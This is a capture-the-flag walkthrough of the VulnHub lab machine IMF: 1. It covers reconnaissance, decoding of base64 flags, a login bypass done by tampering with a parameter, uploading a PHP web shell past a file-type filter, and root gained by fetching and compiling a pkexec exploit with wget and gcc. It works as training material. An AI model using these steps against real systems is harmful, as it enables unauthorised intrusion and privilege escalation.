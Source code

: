 
 IMF: 1 Walkthrough

**VulnHub Link:** [IMF: 1](https://www.vulnhub.com/entry/imf-1,162/)
**Difficulty:** Medium
**Release Date:** 30 Oct 2016

## 1.Reconnaissance
```bash
nmap -A -O -T4 -P -sV 192.168.100.171

sudo echo "192.168.100.171    imf.local" > /etc/hosts
```

## 2. Enumaration 
```bash
dirb http://imf.local
```

from contact us page , view page source and observe flag1
flag1{YWxsdGhlZmlsZXM=

from the same page source observe js sections and combine them 
<script src="ZmxhZzJ7YVcxbVlXUnRhVzVwYzNSeVlYUnZjZz09fQ=="</script>

```bash
echo "ZmxhZzJ7YVcxbVlXUnRhVzVwYzNSeVlYUnZjZz09fQ" | base64 -d
```
flag2{aW1mYWRtaW5pc3RyYXRvcg==} found

```bash
echo "aW1mYWRtaW5pc3RyYXRvcg==" | base64 -d                  
imfadministrator
```

imf.local/imfadministrator found

opening burp suite and changing pass to pass[] and flag3 captured

flag3{Y29udGludWVUT2Ntcw==}

```bash
echo "Y29udGludWVUT2Ntcw==" | base64 -d
```
from webpage whiteboard.jpg

in zxing , whiboard.jpg showed flag4

flag4{dXBsb2Fkcjk0Mi5waHA=} 

```bash
echo 'dXBsb2Fkcjk0Mi5waHA=' | base64 -d
```
and we obtain upload php file 

and found out that we can only uploD image files

in burpsuite , we upload shell.php which you can download
```bash

```

flag5{YWdlbnRzZXJ2aWNlcw==}

pkexec vulnerability found ---> pkexec version 0.105

```bash
wget https://github.com/ali-ctf-player/vulnhub-ctf-walkthroughs/blob/main/IMF%3A1/exploit.c
wget https://github.com/ali-ctf-player/vulnhub-ctf-walkthroughs/blob/main/IMF%3A1/evil-so.c
gcc -shared -o evil.so -fPIC evil-so.c
gcc exploit.c -o exploit
```
AND BOOOM  Root flag captured.

flag6{R2gwc3RQcm90MGMwbHM=}
